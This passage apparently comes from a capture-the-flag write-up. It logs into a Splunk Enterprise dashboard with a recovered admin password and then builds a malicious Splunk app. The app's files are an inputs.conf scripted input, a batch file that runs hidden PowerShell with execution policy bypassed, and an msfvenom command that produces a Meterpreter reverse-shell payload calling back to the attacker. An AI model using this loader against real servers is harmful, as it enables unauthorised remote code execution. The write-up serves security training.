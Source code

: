 ```
Sp1unkadmin@2k24
```

### Splunk Admin Dashboard

We use the obtained password and log in to the **Splunk Enterprise** dashboard as the `admin` user:

![image.png](image%2012.png)

Navigating to `/en-US/manager/search/apps/local`, we see that we can install applications:

![image.png](image%2013.png)

### Building the Loader

We first create two directories: `bin` and `default`, and a file named `inputs.conf` in the `default` directory with the following contents:

```
[script://.\bin\run.bat]
disabled = 0
sourcetype = rce
interval = 10
```

We then create a file named `run.bat` in the `bin` directory with the following contents:

```powershell
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Next, we generate a Meterpreter shell in Powershell format in the `bin` directory and name it `run.ps1`:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=9001 -f psh-reflection -o run.ps1
```

```
...
Payload size: 510 bytes
Final size of psh-reflection file: 3220 bytes
Saved as: meter.ps1
```

Our final directory structure should look something like this:

```bash
kali@kali:~$ tree
.
├── bin
│   ├── run.bat
│   └── run.ps1
└── default
    └── inputs.conf

3 directories, 3 files
kali@kali:~$
```
